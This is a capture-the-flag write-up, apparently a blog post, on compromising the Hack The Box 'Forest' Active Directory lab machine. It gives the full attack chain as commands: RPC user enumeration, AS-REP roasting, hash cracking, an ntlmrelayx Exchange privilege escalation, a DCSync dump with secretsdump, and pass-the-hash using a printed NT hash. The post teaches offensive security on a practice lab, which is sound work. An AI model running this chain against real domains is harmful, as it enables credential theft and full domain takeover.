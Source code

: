 ```yaml
---
layout: single
title: Forest - Hack The Box
excerpt: ""
date: 2020-03-07
classes: wide
header:
  teaser: /assets/images/htb-writeup-forest/forest_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - BloodHound
  - Active Directory
  - Evil WinRM
  - Impacket
---
```


![](/assets/images/htb-writeup-forest/forest_logo.png)

## Synopsis
Forest is a Easy windows machine. 

## Skills Required
* Enumeration
* Active Directory
* Impacket tools

## Skills Learned
* Active Directory
* BloodHound


---
### Nmap
![](/assets/images/htb-writeup-forest/nmap.png)

### SMB Enumeration
Let's see if we can list the user of *RPC* CLient.
```
rpcclient -U "" -N 10.10.10.161
```
![](/assets/images/htb-writeup-forest/rpc.png)

We found the potential users on the machine. With the help of this we make `users.txt` which looks like this:
```
cat users.txt

Administrator
Guest
Krbtgt
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

### AS-REP Roasting
AS-REP Roasting is an attack against Kerberos for user accounts that do not require preauthentication. This is explained in pretty thorough detail in [Harmj0y's post](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

### Performing AS-REP Roasting with GetNPUsers
`GetNPUsers.py` queries target domain for users with 'Do not require kerberos preauthentication' set and export their TGTs for cracking.
![](/assets/images/htb-writeup-forest/getnpusers.png)

Obtained hash for the user `svc-alfresco`
```
$krb5asrep$svc-alfresco@HTB.LOCAL:548c6d9cc7891d9634793907dd9696d9$9900b4424d2d67cc83ce90ae9ffecd784a4c1bc83b0220e77ff075133f928e6e806af4698d7dbdaf7b70321d07527011c8339acba6f0cfc714ab1274d2438797a364ee949d75f7c5b401c1eeba1b8b7c39ecb63444008e4f3e108488602bd2e52d2e9bba6c32bebe4ae8277d8eed550edacade665c57d52ba8409dd1f259230c67b4fec3a3f42bb721c99e42e8bdc05c8071a72dec3ba9578a5f7788c8be3c378f710afce50c95940b06a20b6742b9e4fbef033ec13d6ee0c63fd63fdddb43e402f64bdfb56fa5b4c1c19350a2f3c8826342847993adc4b062b427794b46fd2de79eebe150ed
```
### Cracking the Hash
As we ouputed the `John the ripper` compatible hash from `GetNPUsers.py`. we can crack it with `john`. Hash is stored int the file named `svc-alfresco.hash`.
![](/assets/images/htb-writeup-forest/crack.png)

After the successful cracking the credentials are: `svc-alfresco:s3rvice`.

Earlier during enumeration. we noticed that port `5985` is open so we can use WinRM to connect to box. I used [EvilWinRM](https://github.com/Hackplayers/evil-winrm) to connect to the machine through open `WinRM` port.
![](/assets/images/htb-writeup-forest/initial_shell.png)

we can use `Get-DomainUser -UACFilter DONT_REQ_PREAUTH` to check which users don't have kerberos preauthentication set.
![](/assets/images/htb-writeup-forest/domainusers.png)

### Privilege Escalation
Doing `net groups` reveals:
* Exchange Servers
* Exchange Trusted Subsytem
* Exchange Windows permissions.

![](/assets/images/htb-writeup-forest/net_group.png)

[Dirk-jan](https://twitter.com/_dirkjan) Mollema wrote a great article on Abusing Exchange: [One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

So, We can take adavantage of these vulnerabilities
* Exchange servers have(too) high privileges by default
* NTLM authenticaiton is vulnerable to relay attacks
* Exchange has a feature which makes it authenticate to an attacker with computer account of the Exchange server.

The `Exchange Windows Permission group` has `WriteDcal` access to Domain object in Active Directory, which enables any memeber of this group to modify the domain privileges,
among which is the privilege to perform `DCSync` operation. Let's confirm by running `BloodHound` if ` Exchange Windows Permission` group has `WriteDacl` access to the Domain Object in Active Directory.

### BloodHound
We upload and run `SharpHound.exe` on the machine and drop the outputed zip file which cotains data into `BloodHound`.

![](/assets/images/htb-writeup-forest/sharphound.png)

Drop in the `zip` file into BloodHound. looking for the path form `svc-alfresco@htb.loal` to `Domain Admins@htb.local`.

![](/assets/images/htb-writeup-forest/bloodhound.png)

Checking the groups memberships of `svc-alfresco`. We can see that `service account` is the memeber of `HTB\Privileged IT Accounts`.
![](/assets/images/htb-writeup-forest/groups.png)

A user account will inherit all permissions to resources that are set on the group of which the user is a direct/indirect memeber that's why we can add svc-alfresco to `Exchange Windows Permissions`
![](/assets/images/htb-writeup-forest/perm.png)

Now, Run `ntlmrelayx` with the DC IP that we want to relay to , and specify a domain user we control, who we want to escalate privileges for.
```
python ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco
```
After a minute(we've to browse to our local host and enter svc-alfresco's creds) we see the connection coming in at ntlmrelayx, which gives our user `DCSync` privileges.

![](/assets/images/htb-writeup-forest/ntlmrelayx.png)

A Schematic of the above attack is displayed below, showing the steps that are performed to escalate privileges:

![](/assets/images/htb-writeup-forest/attack.png)
`https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/`

### DCSync attack via secretsdump
Now, we need to run `DCSync` attack via sceretdump
```
python secretsdump.py htb.local/svc-alfresco@10.10.10.161 -just-dc
```
![](/assets/images/htb-writeup-forest/secretdump.png)

### Admin Shell
Now we can get `Administrator` shell by `pass the hash` technique.
We can perform pass the hash using `Evil-winrm`. with hash `32693b11e6aa90eb43d32c72a07ceea6`

![](/assets/images/htb-writeup-forest/root.png)


